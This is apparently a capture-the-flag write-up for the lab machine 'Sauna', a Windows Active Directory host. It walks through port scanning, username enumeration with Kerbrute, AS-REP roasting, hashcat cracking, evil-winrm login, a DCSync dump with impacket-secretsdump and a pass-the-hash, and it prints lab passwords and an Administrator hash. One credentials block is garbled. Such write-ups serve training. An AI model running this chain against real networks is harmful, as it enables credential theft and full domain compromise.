

# Sauna

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Easy |
| **Topics** | Active Directory, User Enumeration, Kerbrute, Kerberos User Validation, ASREProast, Pass the hash, Evil-winrm, DCSync Attack, impacket-secretsdump |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

Result:

```markdown
PORT      STATE SERVICE
53/tcp    open  domain                                                                                                                     
80/tcp    open  http                                                                                                                       
88/tcp    open  kerberos-sec                                                                                                               
135/tcp   open  msrpc                                                                                                                      
139/tcp   open  netbios-ssn                                                                                                                
389/tcp   open  ldap                                                                                                                       
445/tcp   open  microsoft-ds                                                                                                               
464/tcp   open  kpasswd5                                                                                                                   
593/tcp   open  http-rpc-epmap                                                                                                             
636/tcp   open  ldapssl                                                                                                                    
3268/tcp  open  globalcatLDAP                                                                                                              
3269/tcp  open  globalcatLDAPssl                                                                                                           
5985/tcp  open  wsman                                                                                                                      
9389/tcp  open  adws                                                                                                                       
49667/tcp open  unknown                                                                                                                    
49673/tcp open  unknown                                                                                                                    
49674/tcp open  unknown                                                                                                                    
49676/tcp open  unknown                                                                                                                    
49697/tcp open  unknown
```

TCP Full Scan: 

Result: 

```markdown
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-08 02:51:24Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m43s
| smb2-time: 
|   date: 2023-10-08T02:51:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

Wfuzz Enumeration: 

```bash
wfuzz -c --hc=400,403,404 -t 20 -f WfuzzScan-80,raw -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.129.229.244/FUZZ
```

Result: 

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                  
=====================================================================

000000003:   301        1 L      10 W       152 Ch      "images"                                                                 
000000190:   301        1 L      10 W       152 Ch      "Images"                                                                 
000000537:   301        1 L      10 W       149 Ch      "css"                                                                    
000002758:   301        1 L      10 W       151 Ch      "fonts"                                                                  
000003660:   301        1 L      10 W       152 Ch      "IMAGES"                                                                 
000005569:   301        1 L      10 W       151 Ch      "Fonts"                                                                  
000008462:   301        1 L      10 W       149 Ch      "CSS"
```

Web Enumeration

Found potential usernames



Create a list using the typical naming convention of users using the first letter of the name followed by the last the name: `Bob Sinclai --> bsinclair`

```bash
fsmith
scolns
hbear
btaylor
sdriver
skerb
```

Validating usernames with Kerbrute

```bash
kerbrute --dc 10.129.229.244 -d EGOTISTICAL-BANK.LOCAL userenum userlist.txt
```

Found User valid: 


ASREPRoast Attack:

GetNPUsers.py

```bash
/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile userlist.txt
```

Found hash for `fsmith`


Impacket: 

```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -request -dc-ip 10.129.229.244 -no-pass -usersfile userlist.txt
```


Cracking the hash: 

Hashcat:

```bash
hashcat -m 18200 fsmith-tgt.txt /usr/share/wordlists/rockyou.txt
```

Found valid password: 


Credentials:

```bash
fsmith:Thestrokes23
```

Validation with Crackmapexec:

SMB

```bash
crackmapexec smb 10.129.229.244 -d "EGOTISTICAL-BANK.LOCAL" -u "fsmith" -p "Thestrokes23"
```

Valid password: 


Winrm:

```bash
crackmapexec winrm 10.129.229.244 -d "EGOTISTICAL-BANK.LOCAL" -u "fsmith" -p "Thestrokes23"
```


# Initial Access

Connecting to the target machine using the valid credentials using evil-winrm:

```bash
evil-winrm -i 10.129.229.244 -u "fsmith" -p "Thestrokes23"
```

Result:


# Privilege Escalation

Executing Bloodhound-python to enumerate the domain:

```bash
bloodhound-python -c all -u 'fsmith' -p 'Thestrokes23' -ns 10.129.95.180 -d egotistical-bank.local --zip
```

The user SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL has the DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege on the domain EGOTISTICAL-BANK.LOCAL.


Executing WinPEAS we will be able to find the Autologin credentials for `svc_loanmgr` in text-plain: 


Credentials:

```bash
svc_loanmgrimpacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.129.95.180:Moneymakestheworldgoround!
```

Since the User has privilege for DCsync we can use impacket to perform this attack:

```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.129.95.180
```

Result: All hashes dumped!


Administrator Hash:

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

Finally, we just need to perform a pass the hash: 

```bash
evil-winrm -i 10.129.95.180 -u 'Administrator' -H '823452073d75b9d1cf70ebdf86c7f98e'
```

